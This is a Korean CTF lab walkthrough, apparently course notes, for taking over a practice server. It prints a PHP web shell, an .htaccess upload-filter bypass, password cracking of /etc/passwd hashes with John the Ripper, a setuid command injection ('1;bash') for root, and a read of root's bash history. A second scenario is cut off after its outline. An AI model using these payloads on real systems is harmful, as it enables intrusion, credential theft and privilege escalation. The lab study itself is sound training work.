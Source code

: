 # CTF

25-4 CTF 개념 정리 - 시나리오

## 시나리오 1번

모 서버 장악 후, 내부에 저장된 정보를 확인하라.

**힌트**
```
1. 업로드 경로 확인
 - 임의의 파일 업로드 해보기

2. 웹 쉘 업로드 후 소스코드
   <?php system($_GET['cmd']); ?>

   Day2 파일 업로드 취약점 실습 내용
       - 1) 확장자를 우회) php -> phar, phtml 등등
       - 2) .htaccess(아파치 서버 설정 파일) 업로드 후 확장자 저장 설정 변경
             AddType application/x-httpd-php .abc .txt .xyz 등
       - vi .htaccess (.으로 시작되는 파일은 기본적으로 숨김처리 되어있음.
         view - show hidden files 체크 혹은 ls -al

3. 웹 쉘 업로드 성공 후 시스템 명령어로 flag 확인 (cat flag.php X, flag가 들어간 파일)
  - find / -name "flag*"

4.  /etc/passwd 파일
  - john the reaper (패스워드 크랙 툴)로 패스워드 알아내보기 : 크랙 하고자하는 문자열을 vi로 텍스트 파일로 저장.
  - john 파일명
리눅스 : /etc/passwd : 사용자 패스워드 정보를 가지고 있음.

5. setuid가 적용된 파일 찾기 : 인터넷 검색 활용
  - ssh 접속 명령어 : ssh id@ip
  - find / -perm ~
  - /bin/bash : 배시 쉘(터미널 쉘)로 변경

6. SetUID : 리눅스 특수 권한 파일을 실행 시에만 root 권한 획득
  - cat으로 실행시키지 말고, 해당 경로에서 ./프로그램 명으로 실행해보기
  - 커맨드 인젝션 - 권한 상승(LPE) - root 권한 획득 시, flag 값을 확인 가능
  - 명령어 이어서 쓸 때 ; 을 이용했던 것을 기억  ex) ls ; pwd
  - 특수 권한 SetUID: 파일을 실행할 때에만 파일 소유자 권한(root)을 획득할 수 있는 특수권한

7. root 계정으로 실행했던 명령어 로그 : bash history 확인

```

**kali linux 프록시 설정 끄는 법**

1. Web Browser
2. 우측 상단 햄버거 기호 클릭
3. Preferences
4. Proxy 검색
5. settings No Proxy로 바꾼 후 접속

**시나리오 흐름도**

1. 파일 업로드 기능 확인
2. 확장자 우회
3. 서버 장악
4. 계정 탈취
5. 공격 벡터 확인
6. 권한 상승
7. 정보 수집

### 1) 업로드가 가능한 경로

파일 업로드 시 유의미한 경로 발견
```
/uploads/~
```

***

### 2) 특정파일의 확장자 확인

.php .phtml .phar 확장자는 모두 차단되었음.

```
AddType application/x-httpd-php .abc .txt .xyz
```
상대 서버 /var/www/html 경로 내에 .htaccess 파일 전송 후

위 3개의 확장자 중 하나로 php 코드 전송

***

### 3) 웹 쉘 업로드 및 파일 확인

웹 쉘이 사용가능하고, find 명령어를 통해 파일의 위치를 확인.
```
find / -name flag*
```

***

### 4) 서버 특정 사용자 패스워드 획득

```
cat /etc/passwd
```
ems 계정의 해시 함수로 암호화된 비밀번호 획득

rockyou.txt.gz 파일 압축 해제
```
gzip -d rockyou.txt.gz
```
test.txt 파일에 복사한 후, 
```
john test.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
입력하여 
```
john --show test.txt
```
크래킹하여 패스워드 평문 확인

***

### 5) 서버 내 setuid 적용된 파일 확인

```
ssh ems@ip주소
```

SSH 접속 후, dumb shell을 bash shell로 전환

```
/bin/bash
```

쓸모없는 파일 제외하고 보기 기능
```
2>/dev/null
```

find 명령어로 setuid 적용된 파일 확인
```
find / -perm 4000 2>/dev/null
```

***

### 6) root 권한 획득

```
./Sub_pro
```

파일 실행시 Command Injection 공격 수행

```
1;bash
```

root 계정으로 bash shell 획득.

***
### 7) root 계정으로 실행했던 bash history 확인

root 디렉토리 하위의 .bash_history 파일 확인

```
cat /root/.bash_history
```

***

## 시나리오 2번

모 DB 서버 장악 후 유의미한 정보 확인

**힌트**
```
```

**시나리오 흐름도**

1. 취약점 확인
2. DB 정보 확인
3. 데이터 탈취
4. 관리자 계정 탈취
5. 서버 장악
6. 정보 탈취
7. 취약점 확인
8. 서버 장악

### 1) 
